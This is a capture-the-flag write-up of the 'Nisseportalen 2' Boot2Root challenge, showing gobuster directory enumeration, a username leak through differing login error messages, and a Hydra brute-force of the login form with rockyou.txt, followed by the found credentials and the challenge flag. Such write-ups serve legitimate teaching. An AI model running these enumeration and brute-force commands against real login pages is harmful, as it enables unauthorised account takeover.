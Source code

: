 +++
title = 'Nisseportalen 2'
categories = ['Boot2Root']
date = 2024-12-15T13:34:38+01:00
scrollToTop = true
+++

## Challenge Name:

Nisseportalen 2

## Category:

Boot2Root

## Challenge Description:

Nissernes største ønske er en portal til deling af alle deres AI-genererede billeder aka Nisseportalen. Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen.

Praktikantnissen har fået til opgave at redde Nisseportalen og få ryddet op i Nissedevs rod. Kan du hjælpe med at redde Nisseportalen og finde alle de sårbarheder, der må være, så projektet endelig kan blive gjort færdigt?

Men vær beredt, det er ikke til at sige hvad Nissedev har haft gang i...

[https://tryhackme.com/jr/nisseportalen2o24](https://tryhackme.com/jr/nisseportalen2o24)

## Approach

We pick up where we left off in [Nisseportalen 1](/nc3/boot2root/nisseportalen-1) and continue to enumerate the webapp, scanning for subdirectories under /portal!

### Enumeration

We fire off a [gobuster](https://tools.kali.org/web-applications/gobuster) scan to see if we can find any hidden directories under the newly discovered /portal directory!

```bash
gobuster dir -u http://nisseportalen.nc3/portal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,bak,old

/index.html           (Status: 200) [Size: 150]
/index.php            (Status: 200) [Size: 777]
/.html                (Status: 403) [Size: 283]
/.php                 (Status: 403) [Size: 283]
/login.php            (Status: 200) [Size: 1764]
/uploads              (Status: 301) [Size: 333] [--> http://nisseportalen.nc3/portal/uploads/]
/list.php             (Status: 200) [Size: 500]
/admin.php            (Status: 200) [Size: 1478]
/upload.php           (Status: 200) [Size: 1055]
/filter.php           (Status: 200) [Size: 0]
/billeder.txt         (Status: 200) [Size: 66]
/.php                 (Status: 403) [Size: 283]
/.html                (Status: 403) [Size: 283]
```

We find a plethora of interesting files and directories, including /login.php, /uploads, /list.php, /admin.php, /upload.php, /filter.php, and /billeder.txt!

### Exploitation

I spent SO much time, diving through the source code of every single page, noting down the images in the billeder.txt file.
I even discovered that the images can be accessed by changing the URL to /portal/uploads/images/[image_name].jpg, but I couldn't find anything useful in the images themselves (and based on several previous uploads to my favorite quick image analysis tool, [AperiSolve](https://www.aperisolve.com/), I saw that several other contestants also tried this aproach...).

I ended up focusing on the /portal/login.php page, where I found a login form. I tried to log in with the default credentials, without luck.
I attempted to run SQL injection attacks with sqlmap, again without any luck.

Mostly based on luck, I noticed that the user "test" yielded a different error message than the user "admin" when trying to log in!

![Admin login](images/login-default-error.png)

![Test login](images/login-information-leaking.png)

### Getting foothold on the webapp

This abosolutely caught my interest and led me fire off a Hydra attack against the login form, using the user "test" and the rockyou.txt wordlist!

```bash
hydra -l test -P /usr/share/wordlists/rockyou.txt -f nisseportalen.nc3 http-post-form "/portal/login.php:Username=^USER^&Password=^PASS^:Forkert kodeord"
```

After just short of 10 minutes of running the Hydra attack, I found the password for the user "test"!

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://nisseportalen.nc3:80/portal/login.php:Username=^USER^&Password=^PASS^:Forkert kodeord
[STATUS] 4564.00 tries/min, 4564 tries in 00:01h, 14339834 to do in 52:22h, 16 active
[STATUS] 4661.00 tries/min, 13983 tries in 00:03h, 14330415 to do in 51:15h, 16 active
[STATUS] 4685.57 tries/min, 32799 tries in 00:07h, 14311599 to do in 50:55h, 16 active
[80][http-post-form] host: nisseportalen.nc3   login: test   password: tester
[STATUS] attack finished for nisseportalen.nc3 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

### Getting second flag

Shortly after logging into portal, I was immediately greeted with the second flag, which was we can submit and move on to [Nisseportalen 3](/nc3/boot2root/nisseportalen-3)!

![Foothold](images/foothold.png)

## Flag

```text
NC3{Flag2:9aMl3_kod3R_ru573r_AlDrI9}
```

## Reflections and Learnings

### Persistence Pays Off

Just keep trying! With this part of the challenge, SO SO many hours went into investigating the different "dead-ends" I encountered. But, as always, persistence pays off!

### Importance of Error Messages

The differing error messages provided a critical clue that helped narrow down the attack path. This reinforces the importance of examining even minor inconsistencies during enumeration and testing phases.
This displayed a very typical example of information leakage, where the application provides different responses based on the input provided. This can be a goldmine for attackers, as it can reveal valuable information about the application's inner workings.

### Wordlists are Valuable, at least for CTFs!

Utilizing the rockyou.txt wordlist with Hydra is a "go-to" in CTFs!
In the real world, rockyou will sometimes be very useful, but often much more computationally demanding!
My rule of thumb is to always give rockyou 1 hour of runtime, and if I haven't found the password by then, I'll move on to test out other paths!

### Automation is key

The power of Hydra to automate credential brute-forcing saved significant time and effort. It’s a reminder to leverage automation tools effectively in CTF challenges to focus manual efforts where they’re most impactful.
